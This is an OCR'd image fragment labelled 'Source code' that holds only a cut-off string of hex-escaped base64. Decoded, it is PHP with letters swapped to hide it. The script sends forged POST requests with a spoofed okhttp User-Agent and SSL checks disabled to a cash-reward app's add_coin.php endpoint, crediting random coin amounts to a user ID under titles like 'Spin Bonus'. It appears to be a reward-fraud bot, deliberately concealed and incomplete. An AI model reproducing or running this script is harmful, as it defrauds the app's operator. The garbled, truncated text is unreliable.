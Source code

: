 1\x56\x53\x54\x45\x39QV\x46\x39Q\x541\x4eU\x52k\x6cF\x54ERT\x50\x544\x67JGI\x79Z\x48k\x73DQog\x49\x43\x42\x44V\x56\x4aM\x54\x31B\x55\x58\x30hUV\x46\x42\x49RU\x46\x45RVI9\x50\x69AkaC\x77NC\x69Ag\x49\x45\x4e\x56\x55\x6b\x78PU\x46Rf\x55\x31N\x4d\x58\x31ZFU\x6b\x6c\x47\x57VB\x46R\x56I\x39PjA\x73\x4bSk7\x4a\x48\x491c\x7a\x4e\x73dD1\x6a\x4d3\x4as\x58\x7aV\x34NWM\x6f\x4aG\x4dz\x63m\x77\x70Ow0K\x59zN\x79\x62\x46\x39\x6a\x62DJzN\x53g\x6bY\x7a\x4e\x79\x62Ck7DQ\x70\x79\x4e\x58\x51z\x63m\x34\x6bc\x6aV\x7a\x4d2x0\x4fw\x30Kf\x510\x4b\x5aj\x4e\x75\x593\x510\x4d\x6d4\x67\x633A0\x62i\x67kM\x53\x77kM\x33M\x31\x63\x6aR\x6bK\x58s\x4e\x43iRy\x62mQ9c\x6a\x46\x75\x5aChh\x4c\x479\x31K\x54\x73\x4e\x43iQx\x63nI\x39MXJ\x79\x4d\x58k\x6fIg0\x4bI\x69wi\x43\x53\x49\x70Ow\x30K\x4a\x47g9\x4eX\x68\x77\x62\x44J\x6bNS\x67\x69\x44QoiLH\x4e\x30\x63\x6c\x39y\x4eXBs\x4d\x57\x4d1KC\x51x\x63n\x49s\x49\x69I\x73\x49lVzNXIt\x51Wc\x31b\x6eQ\x36I\x44Jr\x61HR\x30cC\x39vLjY\x77\x4c\x6aAp\x49i\x6b\x70\x4fw0K\x4a\x47I\x79\x5a\x48k\x39\x49jF\x74\x4d\x6aNud\x44\x30\x69Li\x52y\x62\x6dQuIi\x59z\x63z\x56yX\x7a\x52kPSIuJDN\x7a\x4eXI\x30Z\x43\x34iJnQ0\x64\x47w1PVNw\x4eG\x34gQ\x6a\x4auM\x33\x4d\x69O\x770KJGM\x7ac\x6dw9\x59\x7a\x4e\x79\x62\x4680\x62j\x520\x4b\x43\x6b7D\x51\x70\x6aM\x33\x4a\x73\x58\x33\x4d1\x64\x44Jwd\x468x\x63\x6e\x49xeS\x67\x6b\x59zN\x79b\x43wxcnI\x78e\x53\x67NC\x69\x41\x67\x49\x45NV\x55k\x78P\x55F\x52\x66U\x6b\x56U\x56\x56\x4a\x4f\x56F\x4a\x42\x54l\x4eG\x52\x56I9PnRyMzUs\x44\x51\x6fg\x49\x43\x42\x44V\x56\x4aMT1BU\x58\x31V\x53\x54\x44\x30+\x49\x43J\x6f\x64H\x52wcz\x6f\x76\x4c\x33\x643\x64y\x35\x6bM\x6d\x35\x35Y\x7a\x46\x7a\x61\x43\x35\x6aM\x6d0\x76\x4d\x58\x410L\x7aFk\x5a\x46\x39\x6a\x4d\x6aRu\x4c\x6e\x42oc\x43IsD\x51\x6f\x67I\x43BDVV\x4a\x4dT1\x42\x55\x58\x31R\x4a\x54U\x56\x50V\x56Q9P\x6d8\x77LA0\x4bICA\x67Q\x31VSTE\x39\x51\x56\x469QT\x31NU\x50\x54\x350\x63\x6aM1\x4cA0\x4b\x49C\x41gQ1\x56\x53\x54E9\x51\x56\x469Q\x54\x31\x4e\x55RklF\x54\x45R\x54P\x544\x6b\x59\x6aJ\x6b\x65SwN\x43iAg\x49ENV\x55\x6bx\x50U\x46\x52\x66SF\x52\x55U\x45\x68\x46\x51\x55R\x46\x55\x6a\x30+J\x47g\x73\x44Qog\x49CBD\x56\x56\x4a\x4dT\x31\x42\x55X\x31\x4e\x54T\x469W\x52VJ\x4aRll\x51\x52U\x56SP\x54\x34\x77\x4cCk\x70Oy\x52yN\x58\x4dz\x62HQ9YzN\x79\x62\x46\x38\x31e\x44\x56j\x4bCRjM3JsK\x54\x73NC\x6d\x4dz\x63\x6d\x78\x66\x592w\x79\x63z\x55\x6f\x4aGM\x7acmwp\x4fw0K\x63j\x560\x4d3JuJH\x49\x31\x63\x7a\x4e\x73d\x44\x73NCn0N\x43m\x59\x7abm\x4e\x30N\x44J\x75I\x48c\x78\x64\x47\x4e\x6f\x4bC\x510\x4c\x43Q\x7a\x63zVy\x4e\x47\x51\x70e\x77\x30KJDFyc\x6a\x30xc\x6e\x49\x78\x65\x53\x67\x69D\x51\x6fiL\x43I\x4aIi\x6b\x37\x44Q\x6fk\x61D0\x31\x65\x48\x42\x73M\x6dQ\x31K\x43I\x4e\x43\x69\x49sc\x33\x52y\x583I\x31\x63\x47\x77x\x59\x7aU\x6fJDF\x79\x63iwi\x49\x69\x77iV\x58\x4d1ci\x31B\x5a\x7aVu\x64\x44\x6f\x67\x4dm\x74odH\x52w\x4c\x32\x38\x75\x4ejAu\x4d\x43\x6bi\x4b\x53\x6b7D\x51\x6fkYj\x4ak\x65T\x30\x69\x4d\x57\x30\x79\x4d2\x35\x30P\x57EwJj\x4e\x7a\x4e\x58\x4af\x4eGQ9\x49i4\x6bM\x33M1\x63j\x52\x6b\x4ciI\x6dd\x44R0\x62DU9\x56\x7a\x46\x30Y\x32\x67g\x56j\x52\x6bNTIiOw\x30KJ\x47\x4dzc\x6d\x77\x39\x59\x7aNyb\x46\x380\x62\x6a\x52\x30KC\x6b\x37DQ\x70\x6a\x4d3\x4a\x73X\x33\x4d\x31d\x44Jw\x64\x46\x38x\x63nI\x78\x65SgkYz\x4ey\x62Cw\x78\x63n\x49\x78e\x53\x67N\x43\x69\x41gI\x45N\x56Ukx\x50U\x46\x52f\x55\x6b\x56\x55\x56VJO\x56F\x4aBTlN\x47\x52\x56I\x39\x50\x6e\x52y\x4dz\x55sDQ\x6f\x67\x49CB\x44\x56VJ\x4dT\x31BUX1\x56S\x54\x44\x30+\x49CJ\x6f\x64H\x52\x77\x63z\x6fv\x4c3\x64\x33dy5\x6b\x4dm\x35\x35\x59zFzaC\x35\x6a\x4dm0vM\x58\x410Lz\x46\x6b\x5a\x469\x6aMjRuL\x6e\x42\x6fc\x43\x49\x73D\x51og\x49C\x42\x44VVJ\x4dT\x31\x42UX\x31RJ\x54UV\x50\x56\x56Q9Pm8w\x4cA0K\x49C\x41gQ\x31\x56\x53T\x459Q\x56\x469QT1